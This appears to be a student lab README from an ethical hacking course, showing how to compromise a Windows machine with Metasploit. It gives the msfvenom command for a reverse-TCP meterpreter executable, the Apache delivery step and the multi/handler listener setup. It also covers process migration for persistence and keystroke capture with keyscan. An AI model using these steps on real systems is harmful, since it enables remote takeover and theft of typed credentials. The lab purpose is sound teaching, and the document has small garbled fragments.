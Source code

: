 # Compromising-windows-using-Metasploit
# AIM:
To Compromise windows using Metasploit .
## DESIGN STEPS:

- `Step 1:` Install kali linux either in partition or virtual box or in live mode
- `Step 2:` Investigate on the various categories of tools as follows:
- `Step 3:` Open terminal and try execute some kali linux commands

### DEVELOPED BY : Gumma Dileep Kumar
### REGISTER NO : 212222240032
  

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

![ethical_6 1](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/b475e147-74c7-4e34-be25-d4820f93b867)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe.

![ethical_6 2](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/4dec2572-ff3e-491e-8025-038022269eb9)


copy the fun.exe into the apache /var/www/html folder

![ethical_6 3](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/769e78fe-55be-4369-9094-786c2dd460ac)


Start apache server sudo systemctl apache2 start

![ethical_6 4](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/d74a83d7-becb-41f6-87a4-f4aec47fada5)

Check the status of apache2

1


Invoke msfconsole:
msfconsole

![ethical_6 5](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/bb77d7c3-ea23-46d0-95e5-1bc63dc8b597)



Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


![ethical_6 6](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/021b73fe-0c10-4f8c-bab0-167650e6cf53)


Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit css

![ethical_6 7](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/0ace7b2e-ea18-4b21-9888-796c11ee0caf)



On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![ethical_6 8](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/9d8ab975-5ddd-42e7-9fb0-ceebad2771cc)


Bypass any warning boxes, double-click the file, and allow it to run.

![ethical_6 9](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/42179281-73e2-4768-9e85-166c2489ba21)



On kali give the command exploit
![ethical_6 10](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/65968bd8-ad25-4b9e-b67b-2d1cc981cfb0)


To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![ethical_6 11](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/bf35eb36-f20c-4be7-83a9-79015aa2edc1)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command: migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted.

![ethical_6 12](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/3fc4ec5e-4ee0-4144-8175-1bba188f064f)


Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![ethical_6 13](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/27da9493-74af-4eef-8bd9-12cca82c15ca)

![ethical_6 14](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/a5c2bde8-be7c-47d3-9d59-f7d1e1407754)


keyscan_dump Shows the keystrokes captured so far.

![ethical_6 15](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/315574a7-5fc8-490f-b255-44857e3a6f77)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
